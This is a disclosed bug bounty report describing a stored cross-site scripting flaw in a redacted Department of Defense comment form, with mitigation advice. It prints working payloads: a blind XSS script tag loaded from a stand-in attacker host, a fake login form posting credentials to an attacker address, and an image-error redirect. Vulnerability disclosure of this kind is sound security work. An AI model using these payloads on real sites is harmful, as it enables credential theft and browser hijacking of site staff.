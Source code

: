 # Stored XSS via Comment Form at ████████

## Report Details
- **Report ID**: 915073
- **URL**: https://hackerone.com/reports/915073
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-03T22:22:09.573Z
- **Disclosed**: 2020-09-29T20:17:34.424Z

## Reporter
- **Username**: un4gi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
An attacker can submit a comment form with injected HTML, leading to a number of malicious effects

## Step-by-step Reproduction Instructions

1. Browse to https://████
2. Complete the form. I placed `"><script src=http://attackerip/blind.js/>` in the `Name` field. Some example payloads for the `Comments` field are as follows:

For credential theft, an attacker could place `<h3>Please login to proceed</h3><form action=http://attackerIP>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>` in the `Comments` field.
███████
████

To redirect to a malicious website, an attacker could use `<img src=x onerror='javascript:window.open("http://catcompusa.com")'></img>`.
██████
The malicious website will open in a new tab when the image fails to load as shown below:
█████████

## Conclusions
- This leads me to believe that once a █████████ employee reads the comment, the code will be injected into their browser as well.
- Additionally, the blind XSS payload injected into the `Name` field seemed to cause a hit on my weblog from `█████████` and `██████████`.
█████

## Suggested Mitigation/Remediation Actions
Sanitize how user input is parsed by the server before being reflected onto the resulting comment page to prevent XSS/HTML injection.

## Impact

The attacker could achieve numerous effects such as credential theft, forced browsing, keystroke logging, drive-by downloads, etc. ultimately leading to administrative access over the █████ website and potentially other internal resources.

## Attachments
No attachments
